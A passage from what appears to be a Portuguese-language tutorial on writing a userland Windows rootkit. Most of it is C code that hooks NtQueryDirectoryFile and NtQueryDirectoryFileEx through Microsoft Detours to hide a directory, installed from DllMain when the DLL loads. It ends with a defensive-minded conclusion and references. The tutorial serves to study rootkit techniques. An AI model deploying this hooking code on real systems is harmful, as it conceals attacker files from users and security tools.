status = originalNtQueryDirectoryFile(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, ReturnSingleEntry, FileName, RestartScan);
}
return status;
}
static NTSTATUS NTAPI HookedNtQueryDirectoryFileEx(HANDLE FileHandle, HANDLE Event, PIO_APC_ROUTINE ApcRoutine, PVOID ApcContext, PIO_STATUS_BLOCK IoStatusBlock, PVOID FileInformation, ULONG Length, FILE_INFORMATION_CLASS FileInformationClass, ULONG QueryFlags, PUNICODE_STRING FileName) {
NTSTATUS status = STATUS_NO_MORE_FILES;
WCHAR dirPath[MAX_PATH + 1] = { NULL };
if (GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED)) {
if (StrStrIW(dirPath, L"C:\\Windows\\Temp\\nothing_here"))
RtlZeroMemory(FileInformation, Length);
else
status = originalNtQueryDirectoryFileEx(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, QueryFlags, FileName);
}
return status;
}
BOOL StartHook() {
HMODULE ntdllHandle = GetModuleHandleA("ntdll.dll");
originalNtQueryDirectoryFile = (typedefNtQueryDirectoryFile)GetProcAddress(ntdllHandle, "NtQueryDirectoryFile");
originalNtQueryDirectoryFileEx = (typedefNtQueryDirectoryFileEx)GetProcAddress(ntdllHandle, "NtQueryDirectoryFileEx");
DetourRestoreAfterWith();
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourAttach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);
DetourAttach(&(PVOID&)originalNtQueryDirectoryFileEx, HookedNtQueryDirectoryFileEx);
DetourTransactionCommit();
return 0;
}
BOOL StopHook() {
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourDetach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);
DetourDetach(&(PVOID&)originalNtQueryDirectoryFileEx, HookedNtQueryDirectoryFileEx);
DetourTransactionCommit();
return 0;
}
BOOL APIENTRY DllMain( HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
switch (ul_reason_for_call) {
case DLL_PROCESS_ATTACH:
StartHook();
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
case DLL_PROCESS_DETACH:
StopHook();
break;
}
return TRUE;
}
Conclusão
Ao explorarmos as profundezas dos rootkits e nos aventurarmos no desenvolvimento de um específico para o sistema Windows, ficou claro que a batalha pela segurança cibernética é complexa e em constante evolução.
Compreender a profundidade desses malwares é crucial para que possamos desenvolver medidas de defesa contra essas ameaças. O rootkit é caracterizado por ser um tipo de malware silencioso e persistente e dependendo do rootkit, pode até desafiar softwares de defesa contra ameaças, como Antivírus (AV) e Endpoint Detection and Response (EDR).
Se você se interessou pelo desenvolvimento de um rootkit userland para Windows, acredito que seria interessante explorar o Frosty Rootkit e tentar entender suas técnicas para se manter silenciosamente nos sistemas operacionais Windows.
Referências
• Microsoft Detours https://github.com/microsoft/detours
• NtQueryDirectoryFile: https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntquerydirectoryfile
• NtQueryDirectoryFileEx: https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntquerydirectoryfileex
• NTSTATUS Values: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-erref/596a1078-e883-4972-9bbc-49e60bebca55
• Frosty Rootkit: https://github.com/brosck/Frosty